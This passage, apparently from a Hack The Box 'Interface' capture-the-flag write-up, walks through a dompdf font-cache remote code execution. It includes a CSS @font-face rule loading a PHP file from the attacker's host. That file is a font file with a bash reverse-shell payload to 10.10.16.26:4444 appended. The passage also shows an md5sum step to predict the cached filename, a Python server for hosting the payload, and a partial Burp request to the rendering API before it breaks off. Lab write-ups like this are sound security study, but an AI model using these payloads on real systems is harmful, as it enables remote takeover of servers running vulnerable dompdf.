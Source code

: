 - Adjust `exploit.css` to resemble:

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://10.10.16.26/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

- Similarly, `exploit_font.php`:
	- Note I used the `hack-tricks` extension for a quick and convenient reverse-shell.

```php

� dum1�cmap
           `�,glyf5sc��head�Q6�6hhea��($hmtxD
loca
Tmaxp\ nameD�|8dum2�
                     -��-����
:83#5:08��_<�
             @�8�&۽
:8L��

:D

6				s
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.26/4444 0>&1'");?>
```

- Following the directions of the blog obtain the `md5sum` of `exploit_font.php`:

```bash
echo -n "http://10.10.16.26/exploit_font.php" | md5sum

0231eacba09bc4c54f7573512d14c42a
```

- Once this is accomplished open up a `python` simple server within the `/dompdf-rce/exploit` directory.

- Host

```bash
python -m http.server 80
```

- In `burp` repeater I have two tabs one for:
	- `/api/html2pdf`
	- `/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_0231eacba09bc4c54f7573512d14c42a.php`

#### `/api/html2pdf`

```bash
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.7
Accept-Encoding: gzip, deflate
X-Forwarded-For: 10.10.16.26
Connection: close
Content-Length: 83

{  
```
